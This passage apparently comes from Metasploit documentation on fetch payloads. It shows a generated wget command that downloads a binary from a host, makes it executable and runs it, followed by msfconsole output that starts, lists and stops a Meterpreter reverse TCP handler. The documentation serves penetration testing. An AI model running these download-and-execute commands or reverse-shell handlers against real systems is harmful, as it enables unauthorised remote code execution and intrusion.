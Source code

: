 You can see the fetch payload generated:
`wget -qO ./YXeSdwsoEfOH http://10.5.135.201:8000/3cP1jDrJ3uWM1WrsRx3HTw; chmod +x ./YXeSdwsoEfOH; ./YXeSdwsoEfOH &`
This command downloads the served payload, marks it as executable, and then executes it on the remote host.

### Starting the Fetch Server
When you start the `Fetch Handler`, it starts both the server hosting the binary payload *and* the listener for the
served payload.  With `verbose` set to `true`, you can see both the Fetch Handler and the Served Payload Handler are
started:
```msf
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > to_handler
[*] wget -qO ./YBybOrAmkV http://10.5.135.201:8000/3cP1jDrJ3uWM1WrsRx3HTw; chmod +x ./YBybOrAmkV; ./YBybOrAmkV &
[*] Payload Handler Started as Job 0
[*] Fetch Handler listening on 10.5.135.201:8000
[*] http server started
[*] Started reverse TCP handler on 10.5.135.201:4567 
```

### Fetch Handlers and Served Payload Handlers
The Fetch Handler is tracked with the Served Payload Handler, so you will only see the Served Payload Handler under
`Jobs`, even though the Fetch Handler is listening:
```msf
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > jobs -l

Jobs
====

  Id  Name                    Payload                                     Payload opts
  --  ----                    -------                                     ------------
  0   Exploit: multi/handler  cmd/linux/http/x64/meterpreter/reverse_tcp  tcp://10.5.135.201:4567

msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > netstat -ant | grep 8000
[*] exec: netstat -ant | grep 8000

tcp        0      0 10.5.135.201:8000       0.0.0.0:*               LISTEN     

```
Killing the Served Payload handler will kill the Fetch Handler as well:
```msf
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > jobs -k 0
[*] Stopping the following job(s): 0
[*] Stopping job 0
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > netstat -ant | grep 8000
[*] exec: netstat -ant | grep 8000

msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > 
```
